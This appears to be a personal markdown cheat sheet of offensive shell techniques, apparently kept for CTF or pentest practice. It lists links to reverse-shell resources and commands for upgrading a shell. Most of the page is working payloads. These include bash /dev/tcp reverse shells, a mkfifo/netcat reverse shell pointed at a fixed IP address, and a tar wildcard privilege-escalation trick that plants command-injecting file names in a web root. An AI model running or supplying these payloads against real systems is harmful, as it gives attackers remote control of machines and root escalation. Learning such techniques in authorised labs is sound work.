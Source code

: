 # Resources
- [Hacktricks Reverse Shells](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux)
- [RevShells](https://www.revshells.com/)
- https://pentestmonkey.net/category/tools/web-shells
- [Payloads All The Things - Repo](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [Socat](https://linux.die.net/man/1/socat)
- [Netcat](../../Tools/Netcat.md)

---
# Shellnanigans

# Upgrading_Shells
- Non-interactive shell session
	- `/bin/bash -i` : launches bash interactive
	- `cat /etc/shells` to view available shells
	- `python --version` : see if python is available
		- `python -c 'import pty; pty.spawn("/bin/bash")'` : spawn bash
	- `perl -e 'exec "/bin/bash";'`
		- `perl -e 'system("/bin/bash");'`
	- can lookup different languages
- `env` check shell environment, add variables if not existing
	- `export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`
	- `export TERM=xterm`
	- `export SHELL=bash`
- connect bash to netcat over sockets
	- `bash -i >& /dev/tcp/<IP>/<port> 0>&1`


Tar being called with sudo wildcard `*` [HelpNetSecurity](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com) explanation
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

---

# Scripts
## Python3
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.run("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## Python2
```python
import subprocess

def spawn_bash():
    # Spawns an interactive Bash shell
    subprocess.call("/bin/bash")

if __name__ == "__main__":
    spawn_bash()

```

## BASH
```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<port> 0>&1
```

## sh

This works when bash cant be called and the `nc -e` option is blocked by bypassing it with file redirection
```sh
#!/bin/sh
rm -f /tmp/fifo && mkfifo /tmp/fifo
cat /tmp/fifo | /bin/sh 2>&1 | nc 10.13.69.46 1234 > /tmp/fifo
```
### Explanation:
- `mkfifo /tmp/fifo`: Creates a named pipe (FIFO) at `/tmp/fifo` for communication.
- `cat /tmp/fifo`: Reads from the named pipe (which gets its input from the shell).
- `/bin/sh 2>&1`: Runs a shell, redirecting both stdout and stderr to the pipe.
- `nc 10.13.69.46 1234`: Establishes a connection to the target IP and port.
- `> /tmp/fifo`: Sends the input from the remote connection back into the pipe.
